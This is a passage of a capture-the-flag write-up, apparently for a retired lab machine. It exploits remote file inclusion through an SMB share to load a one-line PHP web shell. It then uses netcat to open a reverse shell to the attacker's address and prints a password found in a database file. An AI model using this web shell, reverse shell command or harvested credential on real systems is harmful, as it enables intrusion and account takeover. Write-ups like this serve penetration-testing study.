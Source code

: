 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913150949.png)

Ok no more vectors so let's back to LFI, also tried for RFI and it looks like it may be the way
https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html

```
mkdir /tmp/es
chmod 0555 /tmp/es
chown -R nobody:nogroup /tmp/es
```

```
gedit /etc/samba/smb.conf
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914082641.png)

Put web shell and nc.exe in shared folder 

```
<?php system($_REQUEST['cmd']); ?>
```

```
http://10.10.10.151/blog/?lang=\\10.10.14.8\ica\shell.php&cmd=ipconfig
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914083157.png)

Great it works so now upload nc.exe to machine

```
10.10.10.151/blog/?lang=\\10.10.14.8\ica\shell.php&cmd=copy+\\10.10.14.8\ica\nc.exe+c:\programdata\nc.exe
```

```
10.10.10.151/blog/?lang=\\10.10.14.8\ica\shell.php&cmd=c:\programdata\nc.exe+-e+cmd.exe+10.10.14.8+443
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914083517.png)

## Gaining Access

In whoami /all I found SeImpersonatePrivilege but this is old machine so I will try godpotato or printspooler later

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914083953.png)

I found intersting directory in wwroot and db.php file inside

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914083813.png)

in code there is a username and password for another user
36mEAhz/B8xQ~2VM sniper
Can't run via evil-winrm
So I make tunnel to target machine, start ligolo on kali
```
./proxy -selfcert
```
